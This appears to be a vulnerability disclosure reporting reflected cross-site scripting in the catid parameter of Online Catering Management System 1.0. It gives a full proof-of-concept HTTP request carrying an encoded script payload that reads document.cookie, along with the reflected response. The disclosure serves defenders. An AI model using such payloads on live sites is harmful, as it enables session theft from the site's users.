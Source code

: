 # online-catering-management-system-v1.0

##Auditor:
Devansh Dubey

##Description:
Reflected XSS in Online Catering Management System
Link: https://phpgurukul.com/online-catering-management-system-using-php-and-mysql/

Online Catering Management System 1.0 is vulnerable to Cross-site scripting (XSS) in /ocms/categorywise-food.php via catid parameter.

Vulnerable Endpoint - /ocms/categorywise-food.php via catid parameter.

##PoCs
Vulnerable URL: /index.php

###Request

GET /ocms/categorywise-food.php?catid=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=s6qjv42g2ib2rvqinfgrkkgku8
Upgrade-Insecure-Requests: 1
Priority: u=0, i

###Response
---- snip ----
"><script>
alert(document.cookie)
</script>
---- snip ----


